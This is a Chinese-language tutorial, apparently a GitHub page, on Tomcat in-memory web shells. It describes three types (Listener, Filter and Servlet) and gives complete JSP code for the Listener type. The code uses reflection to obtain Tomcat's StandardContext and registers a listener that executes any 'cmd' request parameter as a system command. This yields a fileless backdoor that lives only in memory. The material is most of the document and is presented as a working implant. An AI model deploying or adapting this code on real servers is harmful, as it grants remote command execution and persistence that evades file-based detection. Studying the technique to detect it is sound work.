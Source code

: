 
## java内存马
### Tomcat内存马
> Tomcat内存马大致可以分为三类，分别是Listener型、Filter型、Servlet型。可能有些朋友会发现，这不正是Java Web核心的三大组件嘛！没错，Tomcat内存马的核心原理就是动态地将恶意组件添加到正在运行的Tomcat服务器中。
> 而这一技术的实现有赖于官方对Servlet3.0的升级，Servlet在3.0版本之后能够支持动态注册组件。而Tomcat直到7.x才支持Servlet3.0，因此通过动态添加恶意组件注入内存马的方式适合Tomcat7.x及以上。为了便于调试Tomcat，我们先在父项目的pom文件中引入Tomcat依赖

#### Listener型内存马
获取StandardContext上下文
实现一个恶意Listener
通过StandardContext#addApplicationEventListener方法添加恶意Listener
```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```
